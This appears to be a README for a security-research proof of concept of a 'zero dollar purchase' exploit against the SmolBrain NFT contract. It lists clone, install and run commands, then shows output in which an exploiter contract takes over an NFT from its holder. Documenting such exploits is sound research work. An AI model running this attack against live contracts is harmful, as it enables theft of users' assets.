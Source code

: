 # SmolBrain Zero Dollar Purchase PoC

## How to run

Set up the environment variable for $MORALIS_KEY

```
$  git clone https://github.com/blocksecteam/defi_poc
$  export $MORALIS_KEY = xxxxx
$  cd ./SmolBrain
$  npm install

then 

$  sh run.sh
```

```
$  sh run.sh
Compiled 3 Solidity files successfully
🧛 Exploiter Contract deployed to: 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707
🥷 The holder of the NFT before the attack: 0xd3FeeDc8E702A9F191737c0482b685b74Be48CFa
🧛 The holder of the NFT after the attack: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
```